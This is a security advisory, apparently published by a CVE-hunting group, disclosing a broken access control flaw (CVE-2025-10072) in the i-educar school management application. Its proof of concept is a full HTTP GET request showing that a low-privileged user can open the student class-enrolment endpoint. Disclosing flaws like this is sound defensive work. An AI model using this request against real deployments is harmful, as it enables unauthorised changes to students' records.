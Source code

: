 # Broken Access Control  in /matricula/[ID_STUDENT]/enturmar/[ID_CLASS]` Endpoint

---

## Summary

A **Broken Access Control** vulnerability was identified in the `/matricula/[ID_STUDENT]/enturmar/[ID_CLASS]` endpoint of the _i-educar_ application. This vulnerability allows users without proper permissions to access restricted functionality, bypassing authorization checks.

---

## Details

**Vulnerable Endpoint:** `GET /matricula/[ID_STUDENT]/enturmar/[ID_CLASS]`  
**Authentication:** Required

The application fails to properly validate user permissions before granting access to this endpoint. As a result, even low-privileged users can successfully access the functionality intended only for .

---

## PoC

1. Authenticate as a non-privileged user.

<img width="1843" height="533" alt="Pasted image 20250821190942" src="https://github.com/user-attachments/assets/528a5b22-4d98-4ad3-b6fe-357a4fffbf62" />
<img width="936" height="436" alt="Pasted image 20250821191019" src="https://github.com/user-attachments/assets/5b190516-6229-4261-86f6-9be742934f86" />

    
2. Send the following request::

```
GET /matricula/206/enturmar/23 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br, zstd
Connection: keep-alive
Referer: http://localhost/intranet/educar_matricula_turma_lst.php?ref_cod_matricula=206&ano_letivo=2025
Cookie: i_educar_session=Mz9IKWGOP641g4BLkSGRnxs69wk4ChmUUxUerX19
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
```
    
3. We could observe that we have access to the page and to the function to sign students from classes. And, this user, should not do that.

<img width="1555" height="666" alt="Pasted image 20250821222850" src="https://github.com/user-attachments/assets/384c88a6-b2b6-4a0f-b27c-19ab4c75548a" />


---

## Impact

Broken Access Control vulnerabilities can have severe consequences, including:

- Unauthorized access to restricted functionality
    
- Escalation of privileges for low-level users
    
- Exposure of sensitive data and potential system compromise
    
- Loss of confidentiality and integrity of educational records
    
- Reputational damage to the organization
    
---

## References

[CVE-2025-10072](https://www.cve.org/CVERecord?id=CVE-2025-10072)

[VulnDB-323020](https://vuldb.com/?id.323020)

[I-Educar – Official Repository](https://github.com/portabilis/i-educar)

## Discoverer

[Marcelo Queiroz](www.linkedin.com/in/marceloqueirozjr) 

by [CVE-Hunters](https://github.com/Sec-Dojo-Cyber-House/cve-hunters)
